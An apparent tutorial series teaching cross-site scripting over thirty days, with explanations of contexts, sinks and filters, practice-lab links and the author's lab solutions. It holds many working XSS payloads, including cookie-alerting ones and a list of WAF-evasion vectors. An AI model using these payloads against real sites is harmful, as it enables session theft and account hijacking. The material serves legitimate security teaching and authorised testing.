

30 Days to Master XSS with cyberXsociety
Aug 3-31, 2025 30 Days read ArticleModified & documented by SudoHopeX | Challenge by cyberXsociety
What we will learn ??
- What is XSS ?
- Types of XSS ?
- Labs to practive XSS ?
- How XSS actually works behind the scenes ?
- How to craft and encode your own payloads ?
- Where to find XSS in real applications ?
- How to use it in bug bounty programs ?
- Create own XSS payload cheatsheet
- And much more...
Everything will be in a simple, beginner-friendly way. No experience required—just curiosity and consistency.
So let's master XSS
What is XSS (Cross-Site Scripting)?
XSS (Cross-Site Scripting) is a most dangerous & common security vulnerability(bug) found in websites where 'attackers can run their own code (usually JavaScript) inside someone else’s website'.
This happens when a website shows user input (like a comment or a search query) on a page without checking or cleaning it. An attacker can trick the site into running harmful scripts - for example, to steal someone’s login info or control their account.
Simple Example:
Imagine a website shows our name like this:
Hello, <our name>!
If the site doesn't validate or clean our input, and we type:
<script>alert('Hacked!')</script>
The site will show:
Hello, <script>alert('Hacked!')</script>!
This runs the attacker’s JavaScript, which could do anything - not just show a popup.
Remember in real attacks, hackers do much worse (like stealing our session, account hijacking etc.).
Real-Life Analogy
Imagine there’s a notice board in our college or apartment building. People can write messages like “Lost phone, please contact...” or “Tuition classes at 5 PM”.
Now imagine someone writes a fake message saying: “Free movie tickets, visit link or scan QR code” and secretly includes a QR code or link that steals our WhatsApp data or login info.
That’s like XSS. The board (website) trusted the message (user input) without checking it. And innocent people got tricked.
Now, don't think how a Notice board can check that message ( it's just to understand )
Key Point:
XSS happens when a website shows user input without checking or cleaning it. Always validate and sanitize input before showing it on the page!
XSS is not just about running alert(1). It’s about understanding how data flows in a web app, where input is not cleaned properly, and how browsers interpret that input.
Why is XSS Dangerous?
Cross-Site Scripting (XSS) is dangerous because it lets attackers run malicious scripts inside someone else's browser without permission.
Here's what attackers can do using XSS:
- Steal login cookies (to hijack accounts)
- Redirect users to fake (phishing) sites
- Change how a website looks or behaves
- Capture sensitive data entered into forms
- Spread malware through links or fake downloads
There are 3 main type of XSS
1. Reflected XSS
This happens when user input is immediately reflected back in the page, like in a search result or error message without being stored on the server.
Example:
https://example.com/search?q=<script>alert(1)</script>
If the website shows back the q (query) parameter in the page without cleaning it, the script will run.
2. Stored XSS (Persistent XSS)
This is more dangerous. The attacker’s script gets stored in the website's database (e.g., in a comment or profile). Anyone who visits the affected page sees the malicious script run.
Example: An attacker posts a comment like:
Nice post! <script>stealCookies()</script>
Now every time someone reads the comments, the script runs in their browser.
3. DOM-Based XSS
This kind of XSS happens entirely in the browser using JavaScript. The malicious input changes the page content using client-side scripts (like document.write or innerHTML).
Example:
https://example.com/#name=<script>alert(1)</script>
If the website uses JavaScript to read location.hash and writes it to the page without sanitizing, the script will execute.
Simple Example (Try This on a Test Site Only):
https://example.com/search?q=<script>alert('XSS')</script>We can try this on:
XSS Game by GoogleXSS Game by
Learn More about it at Portswigger.net
That's it for Day 1.
Before we go deeper into XSS attacks, we need to understand one important thing:
Cross-Site Scripting is not possible without JavaScript.
Attackers use JavaScript to steal cookies, redirect users, fake login forms, or take control of a session. So today, we will focus on the core JavaScript functions that are most commonly used in XSS payloads.
We do not need to learn JavaScript like a developer.
Just need to understand how to use it as a hacker.
Here are a few functions to try:
-
alert()
Used to test if our payload is working.
<script>alert('XSS')</script> -
prompt()
Sometimes works when
alert()is blocked.<script>prompt('XSS')</script> -
console.log()
Useful for testing silently without alert boxes.
<script>console.log('XSS')</script> -
document.cookie
This is how attackers steal session data.
<script>alert(document.cookie)</script> -
<img> tag
useful when script tag is filtered.
<img src=x onerror="alert('XSS')"> -
<svg> tag
another useful when script tag is filtered.
<svg onload="alert('XSS')">
Our Today's Task:
Try above functions at XSS LAB 01
and See how different websites respond to the payloads.
TryHackME JavaScript Basics Room
TryHackME How Website works Room
Tip:
Start building own XSS cheat sheet with working payloads.
Name it something like: my-xss-payloads.txt
This will help us later in bug bounty programs when we need quick payloads for different contexts.
That’s it for Day 2.
Today we’ll explore the most beginner friendly type of XSS:
Reflected Cross-Site Scripting.
This type happens when a website takes input (from the URL or form) and reflects it back into the page without filtering. If your script is shown directly in the HTML, it can run in the victim’s browser.
It is not stored anywhere it works instantly and only in that session.
Topics to explore for today 👇
What is Reflected Input ?
Reflected input means:
The value you type into the browser (like in the URL or a search box) is immediately shown back (reflected) on the page.
This is common in:
- Search results
- Error messages
- Forms that show what we typed
If this reflection happens unsafely, it can lead to Reflected XSS (Cross-Site Scripting).
Example:
- We visit a URL like:
- The page says:
-
That
Hellois reflected input — it came from the URL and was shown back on the page.
https://example.com/search?query=Hello
You Searched for: Hello
Reflected XSS Happens When:
We enter <script>alert('XSS')</script> in a search or query parameter. like this 👇
https://example.com/search?q=<script>alert('XSS')</script>And the page reflects it like this 👇 (unsafely):
You Searched for: <script>alert('XSS')</script>If The JavaScript runs and If we see a popup (like 👇) or something weird happens. That means the site is vulnerable to Reflected XSS.
How to Recognize Reflected Input
We can test if a page is reflecting input back by entering a unique string in a URL parameter or search box or form and seeing if that exact string shows up on the page.
Important:
Just because we see our input reflected doesn’t always mean it's vulnerable — modern sites may reflect input safely (by escaping or sanitizing it). But if script runs, it's a clear sign of XSS.
How to find parameters in the URL that take our input (like ?q= or ?search=)
1. Look at the URL:
Parameters are usually after a ? (question mark) in the URL and look like this:
https://example.com/search?query=hello
Here, the parameter is query, and the value is hello.
2. Change the value to something we can easily recognize: (like 👇)
?query=HelloTest123
Then check the page content — if you see "HelloTest123" somewhere, that parameter is reflected.
3. Try Multiple Common Parameters
Try changing the parameter name — use these common ones:
?q=HelloTest123 ?search=HelloTest123 ?input=HelloTest123 ?keyword=HelloTest123 ?term=HelloTest123 ?message=HelloTest123
💡 Keep changing and refreshing to see if our input appears somewhere on the page.
and Try injecting this one 👇 or other payloads:
<script>alert(1)</script>If the page breaks or shows an error, that’s also useful it means our input is being processed somewhere and == Reflected XSS
Our Today's Task:
Practice on XSS LAB 02
Try these basic payloads in test environments or labs like:
- PortSwigger Reflected XSS Lab
- TryHackMe’s XSS Room
- TryHackMe’s “Intro to XSS” Room ( if Have Memebrship)
See how different websites respond to the payloads.
Tools We Can Try:
Burp Suite (for capturing and repeating requests)
HackBar extension (to inject payloads quickly)
Try changing the payload if the basic one is blocked,
like this one 👇 & other functions practiced yesterday
<img src=x onerror=alert(1)>That’s it for Day 3.
If a site reflects our input without escaping it, and we can inject HTML like <b>, <h1>, or <img>, that’s HTML Injection.
If our input can actually run JavaScript, like <script>alert(1)</script> or other js payloads, that’s XSS.
Why This Matters ??
Not every HTML Injection is exploitable as XSS.
Some bug bounty reports are rejected because they only show HTML Injection not a real JavaScript execution.
Always check: Can I run JavaScript?
Try These:
<b>BoldText</b>
<h1>Header</h1>
<img src=x onerror=alert(1)>
<script>alert('XSS')</script>
// or more
What to Focus On Today:
Test both harmless (htmli) and script based payloads at XSS LAB 02
Understand that many filters block <script>, but we can still try with html tags like img, svg or other's
NOTE:
Sometimes HTML Injection can still be dangerous like injecting fake login forms, phishing content, or redirecting users. But for bug bounty reports, always try to prove JavaScript execution.
That’s it for Day 4.
Context simply means XSS payloads can behave differently depending on where they are injected, like within javascript or within html codes.
Mainly there are 3 types of contexts for XSS:
1. Between HTML Tags (HTML body)
Easy to inject since it’s already in a script-friendly context.
so, the attacker can run <script>alert(document.cookie)</script>.
2. Within HTML Tags (attributes like href, src, etc.)
We need to break out ( end the html tag ) of the attribute or use escape chars like ",>,"> before injecting our code.
and use payloads like:
<img src="x" onerror="alert(1)">
// here this will brake and " onerror="alert(1)" is payload <input value="test"><script>alert(1)</script>// here"><script>alert(1)</script>is payload
or this ><script>alert(1)</script> or or something similar payload that would fit in the context.
3. Inside JavaScript
We need to close the string ( by single quotation ('), complete the command with a semicolon (;), execute our command, and comment out the rest of the line with // like ';alert(1)// or ');alert(1);// ) or script block ( by </script> to end the script and continue from there), then inject.
<script>
var userInput = '</script><script>alert("XSS")</script>';
</script>which results in
<script> var userInput = '</script>
and
<script>alert('XSS')</script> // this runs our payload & XSS
var name = 'John'; // if input => ');alert(1);//
// Final JS becomes:
var name = '');alert(1);//'; // this executes alert(1) & XSS Therefore, understanding the context of injection is crucial for crafting a working payload, suitable for the code to work accordingly.
Labs to Practice Contexts:
- Google XSS Game ( if not finished solving by self )
- CodeLatte XSS Labs
That's it for day 5
So far, we’ve been working with simple payloads like <script>alert(1)</script>.
But in the real world, most sites have basic protections in place.
These protections include:
- Sanitization:
- HTML encoding - prevent XSS by converting special characters (like <, >, &, ") into their corresponding HTML entities (like <, >, &, "), so they are displayed as text rather than being interpreted as code.
- Script tag filtering and HTML tag sanitization - block XSS by removing or escaping dangerous tags and attributes (like <script>, onerror=, javascript:) from user input before rendering, preventing browser execution.
- WAFs (Web Application Firewalls) - by inspecting incoming web traffic for malicious patterns, such as script tags or event handlers, and filtering or blocking requests that match known attack signatures or exhibit suspicious behavior.
- Content Security Policy (CSP) - blocks XSS by instructing the browser to only execute scripts from explicitly trusted sources.
- In Chrome - XSS auditor can detect & block injected js.
They are designed to prevent XSS, but they are not always perfect.
E.g., How Filters Work:
When we inject something like:
<script>alert(1)</script>
The website might sanitize it by converting:
< → <
> → >
so our input becomes:
<script>alert(1)</script>
That means our code shows up as text, not as executable JavaScript.
Our Job as a Hacker:
Learn to bypass those filters using clever tricks.
like if script is blocked then using img, svg, iframe, math tags or other uncommons tags.
Tips:
If our payload does not run, view the source of the page.
We’ll often find that our input has been changed or escaped, adjust the payload accordinly. That’s how we bypass the filter.
Can use Cheatsheet made for filter bypassing and others.
That’s it for Day 6.
The best way to master XSS is hands-on practice.
Today is about applying everything from the last 6 days:
- XSS basics
- JavaScript for hackers
- Reflected XSS
- HTML Injection vs XSS
- Input context
- Filter bypass basics
Today's Goal:
1. Practice, Practice and Practice (If solved once then resolve) ->
- PortSwigger Reflected XSS Labs (Only Basics and Reflected)
- TryHackMe XSS Room
- XSS Game by Alf.nu
- XSS Game by Google
- CodeLatte XSS Labs
2. Test all payloads learned in 6 days & craft accordingly if needed, like ->
<script>alert(1)</script><img src=x onerror=alert(1)><svg/onload=alert(1)>"><script>alert(1)</script>3. Observe the Behavior ->
- Does our payload execute?
- Does it get filtered or encoded?
- Does it break the page?
- What's the context so that we can customize our payloads?
- What changes we need to make to make it executable?
4. Write Down ->
Keep a log of what worked and why
Note the context (HTML, attribute(tag), JS block)
Tips:
Every failed payload is a clue. It tells you how the application processes your input.
Smart hackers turn failures into new bypasses.
My Solutions can be found below.....
That's it for Day 7
DOM (Document Object Model) represents the structure of a web page.
In DOM-based XSS, the browser’s own JavaScript takes your input and inserts it into the page without proper sanitization no server involvement.
This means:
The vulnerable code runs entirely in the user’s browser
It’s often hidden in JavaScript functions, event handlers, or AJAX responses
We will not see the payload in the HTML source sent by the server
Simple Example:
var search = location.hash.substring(1);
document.getElementById("output").innerHTML = search;If we visit:
https://example.com/#<script>alert(1)</script>The browser takes everything after #, puts it into the page with .innerHTML, and runs it.... that’s DOM-based XSS.
What to Do Today:
learn - How to spot DOM-based vulnerabilities:
1. Understand the DOM
DOM (Document Object Model) represents the structure of a web page. DOM-based vulnerabilities occur in the browser when JavaScript handles user input unsafely, such as from location, document.cookie, or window.name.
2. Look for Dangerous JavaScript Sinks
These are functions that insert data into the page or execute code. Common sinks:
| Sink Function | Risky Because... |
|---|---|
element.innerHTML |
Parses as HTML (can execute tags) |
eval() |
Executes any JS string |
setTimeout("...") |
Can execute code if string-based |
document.write() |
Writes raw HTML |
location.href = "..." |
Can redirect user |
3. Check for Tainted Sources
Look for where the input comes from — these are sources:
| Source | Description |
|---|---|
location.hash |
After # in URL |
location.search |
After ? in URL |
document.referrer |
Referring page |
window.name |
Cross-tab communication |
localStorage |
Stored browser data |
If data from a source is passed to a sink without sanitization, it’s a red flag.
4. Use a Dev Tool or Extension
These tools can help track the flow of user input and detect unsafe usage:
- Burp Suite DOM Invader - amazing for detecting DOM XSS
- Browser DevTools – Use the search panel to find usage of sinks/sources or these keywords in the site’s JS files
- OWASP ZAP – With DOM XSS plugins
5. Manually Test in the URL
Use simple payloads to test for execution:
#<script>alert(1)</script>
#"><img src=x onerror=alert(1)>
Try inserting these into:
- The hash (
#) - The query string (
?) - Cookies or
localStorageusing browser DevTools
Then observe if it shows up on the page or triggers an alert.
6. Check JavaScript Code (Static Analysis)
Look for patterns where input flows from a source to a sink:
var input = location.hash.substring(1);
document.getElementById("output").innerHTML = input; // ⚠️ Dangerous!
Follow the data from source to sink in the code.
7. Use Security Linters or Scanners
Free tools to help catch unsafe JavaScript practices:
- eslint-plugin-security – Highlights use of dangerous functions
- Custom ESLint rules – Detect use of
eval,innerHTML, etc. - OWASP ZAP – Static and dynamic scanning features
Tip:
DOM-based XSS is invisible to server logs many developers never notice it. That’s why it’s a goldmine for bug bounty hunters in modern single-page apps (React, Angular, Vue).
That's it for Day 8..
Sometimes sites block <script> or obvious JS keywords, but we can still run JavaScript using HTML event handlers.
Event handlers are attributes that trigger JavaScript when a certain event happens, like clicking, hovering, loading an image, or pressing a key
Common Event Handlers:
| Event Handler | Description |
|---|---|
onerror |
Runs when an element fails to load (commonly used in image tags) |
onload |
Runs when an element or page finishes loading |
onclick |
Runs when the user clicks on the element |
onmouseover |
Runs when the mouse pointer moves over the element |
onfocus |
Runs when an element gains focus (e.g. input field) |
oninput |
Runs when the value of an input element is changed |
onkeypress |
Runs when a key is pressed and held |
onsubmit |
Runs when a form is submitted |
onchange |
Runs when the value of a form element changes |
Example Payloads:
<img src=x onerror=alert(1)><body onload=alert(1)><div onclick=alert(1)>Click me!</div><svg/onload=alert(1)>Why This Works:
Even if <script> tags are blocked, many sites don’t sanitize event attributes.
When the event triggers, your JavaScript executes.
Today's Challenge:
Find a page that reflects our input inside an HTML element
Inject event handlers into tags that make sense (e.g., img for onerror)
Try multiple events to see what gets blocked and what runs.
Tip:
If onerror or onload is blocked, try less common ones like onfocus, oninput, ontoggle or other uncommon sometimes they slip past filters.
That's it for day 9
Most leaners think we need <script> or an event like onerror to run JavaScript.
But with scriptless XSS, we can execute JavaScript by using browser features that naturally interpret certain values as code.
How it works ?
Some HTML tags have attributes that can directly trigger JavaScript when given a javascript: URI - no <script> tag needed.
Example Payloads:
<iframe src="javascript:alert(1)"></iframe><a href="javascript:alert(1)">Click me</a><form action="javascript:alert(1)">
<input type="submit">
</form><embed src="javascript:alert(1)">Why This Works ??
Browsers treat certain attribute values as executable code if they start with javascript:
If the site doesn’t sanitize these attributes, our code will run.
Today's Our Challenge
- Find where your input is reflected inside an attribute like href, src, or action.
- Try replacing the value with javascript:alert(1).
- Test multiple tags some might be blocked, but others will slip through.
Tip:
If javascript: is filtered, try:
- URL encoding
(javascript%3Aalert(1)) - Using mixed case
(JaVaScRiPt:alert(1)) - Adding whitespace
(javascript :alert(1))
that's it for day 10
Yes, that's true CSS can execute JavaScript under certain conditions.
This is not just about styling when CSS is combined with certain browser quirks, legacy HTML attributes, or injected into dangerous contexts, it can lead to script execution.
How It Works ??
XSS via CSS happens when:
- An application allows us to inject CSS into the page (inline <style> tags, style attributes, or linked stylesheets).
- The CSS is parsed in a way that triggers JavaScript execution often through expression() (in old IE), url() with javascript: protocol, or browser-specific parsing bugs.
- Some HTML attributes like style can be abused if the parser mishandles quotes or contexts.
- Modern browsers block most of these methods, but legacy browsers, embedded systems, or special parsing contexts can still be vulnerable.
Example Payloads:
/* Old IE expression() method */
div { width: expression(alert('XSS via CSS')) }/* url() with javascript: protocol */
body { background-image: url("javascript:alert('CSS XSS')"); }Our Today's Challenge:
- Find a site where we can control CSS (inline styles, <style> tags, or external stylesheet URLs).
- Test harmless payloads first (like changing colors).
- Try older CSS payloads in IE mode or special embedded browsers (e.g., in-app browsers).
- Document results note where modern browsers block vs. where legacy ones still execute.
Tip:
Even if modern browsers patch this, CSP misconfigurations + CSS injection can still allow data exfiltration, keylogging (with clever background image tracking), or advanced phishing UI tricks.
So do not ignore CSS injection in bug bounty reports sometimes it’s the key to a full exploit chain.
that's it for day 11
Step 1 — Get Permission First
Testing a site you don’t own without consent can be illegal.
Only test:
- Your own projects
- Sites with a bug bounty program that explicitly allows XSS testing
- Public vulnerable labs like PortSwigger Web Security Academy, DVWA, or bWAPP
Step 2 — Identify User Input Points
XSS needs input → output without proper sanitization.
Places to check:
- Search bars
- Comment forms
- Contact/feedback forms
- Profile name / bio fields
- URL parameters (
?q=,?search=,?id=) - Hash fragments (
#section) - HTTP headers that get reflected (rare, but useful)
Step 3 — Look for Reflection
- Put something unique in the input:
test123ABC
- Submit and see if it appears in the HTML output when the page reloads.
- If it does, view the HTML source to check whether it’s inside:
- HTML text:
<p>test123ABC</p> - Attributes:
<input value="test123ABC"> - Script blocks:
var name = 'test123ABC';
If it’s there without encoding (e.g., < → <), it’s a candidate for XSS.
Step 4 — Try a Benign Payload
Start harmless — don’t break pages.
">
If you see an alert popup, that’s an XSS vulnerability.
Step 5 — Escalate with Contextual Payloads
Depending on where your input lands:
- HTML context →
<img src=x onerror=alert(1)> - Attribute context →
" autofocus onfocus=alert(1) x=" - JavaScript context →
';alert(1);//
Step 6 — Confirm and Document
If you find it:
- Record the URL, payload, and proof (screenshot)
- Check if it’s Reflected, Stored, or DOM-based XSS
- Report it through the allowed channel (e.g., bug bounty portal)
💡 Pro Tip: You can use free tools like XSS Hunter Express, XSStrike, or Burp Suite Community Edition to help automate testing and find hidden injection points.
Usefull XSS Payload List
Usefull to bypass length restrictions: Tiny XSS Payloads
If XSS payloads are blocked based on specific blocklists (filters), then a horizontal tab, a new line, or a carriage return can break up the payload and evade the detection engines.
- Horizontal tab (TAB) is '9' in hexadecimal representation
- New line (LF) is 'A' in hexadecimal representation
- Carriage return (CR) is 'D' in hexadecimal representation
Examples <img src="javascript:alert('XSS');"> can be used as:
<img src="jav	ascript:alert('XSS');"> // Tab (9)
<img src="jav
ascript:alert('XSS');"> // Line Feed (A)
<img src="jav
ascript:alert('XSS');"> // Carriage Return (D)
XSS Filters Bypass Payloads
Cheat Sheet for XSS Filter Evasion by OWASP.ORG
If the WAF strips every on* = attribute, the trick is to use non‑attribute sinks or navigations/containers that execute JS without any event attributes.
Here are practical, copy‑pasteable payload ideas we can use (all avoid on*=).
1) Use inline script via srcdoc (no events)
<iframe srcdoc="<script>alert(document.domain)</script>"></iframe>2) Use a data: URL inside an iframe/object
<iframe src="data:text/html,<script>alert(document.domain)</script>"></iframe><object data="data:text/html,<script>alert(document.domain)</script>"></object>3) Plain <script> (if only on* is stripped)
<script>alert(document.domain)</script><svg><script>alert(document.domain)</script></svg>4) javascript: without events (programmatic trigger)
<a id="p" href="javascript:alert(document.domain)">x</a>
<script>p.click()</script>5) Form navigation to javascript:
<form id="f" action="javascript:alert(document.domain)"></form>
<script>f.submit()</script>6) Meta refresh to a payload
<meta http-equiv="refresh" content="0;url=data:text/html,<script>alert(document.domain)</script>">7) External script include (no events)
<script src="data:text/javascript,alert(document.domain)"></script>Why these bypass a basic “strip all on*” WAF
These payloads work because they avoid event handler attributes entirely and instead trigger JavaScript execution through other browser features:
- Script contexts: direct
<script>execution or injected JavaScript viasrcdocordata:URLs. - Navigation to executable schemes:
javascript:ordata:schemes that run code when loaded. - HTML containers that parse code:
<iframe>,<object>, and similar elements that treat embedded HTML as a new document. - Programmatic actions:
.click()and.submit()trigger behaviors without any inlineon*attributes.
A naive WAF that only removes attributes like onclick, onerror, onload will leave these vectors untouched unless it also blocks:
- Entire HTML elements (
<script>,<iframe>,<meta>,<object>) - Dangerous URL schemes (
javascript:,data:) - Or enforces strong Content Security Policy (CSP)
Caveats
- Modern browsers may block certain payloads (e.g.,
javascript:in iframesrc) —data:URLs are more reliable. - If the sandbox for the iframe removes
allow-scripts, no JavaScript will execute inside it. - If CSP forbids inline scripts or
data:URLs, many of these won’t work. - For real-world bypasses, you might need to chain with encoding, tag obfuscation, or alternate script injection sinks.
Lab 01:
Context: within html code
<script>alert(1)</script>Lab 02:
Context: within html code
<a href="" onclick="alert(1)">click Me</a>Lab 03:
Context: within html tags ( img attributes )
3' onerror='alert(1)'>/Lab 04:
Context: within javascript
')%3Balert(1,'Lab 05:
Context: within html tags ( a attributes )
javascript:alert(1);Lab 06:
Context: within html tags ( script src tag ), loading files dynamically via url
data:text/javascript,alert('XSS')Or
data:text/plain,alert('XSS')Task for Each LAB: alert the cookie stored on the page
Lab 01 (Level - Easy):
Protection: No Protection
Context: within html code
<script>alert(document.cookie)</script>Lab 02 (Level - Easy):
Protection: script tag (<script> & </script>) is removed (filtered)
Context: within html tags ( input box placeholder ) [NOTE: btw it broke page to continuously load and show popups infinitely ]
x" autofocus onfocus="alert(document.cookie)Or
x" onfocus="alert(document.cookie)Lab 03 (Level - Easy):
Protection: dot(.) is removed (filtered)
Context: within html tags ( input box placeholder )
" onfocus="alert(document['cookie'])Lab 04 (Level - Easy):
Protection: alert keyword is replaced with [removed]
Context: within html tags ( input box placeholder )
" onfocus="console.log(document['cookie'])Lab 05 (Level - Medium):
Protection: input sanitization and filtering for placeholder and dynamically added p tag.
Context: Back Button ( it works in two steps, first input this payload & then input anything and after reload press back button, boom XSS)
" onclick="alert(document.cookie)">Lab 06 (Level - Medium):
Protection: --
Context: --
payload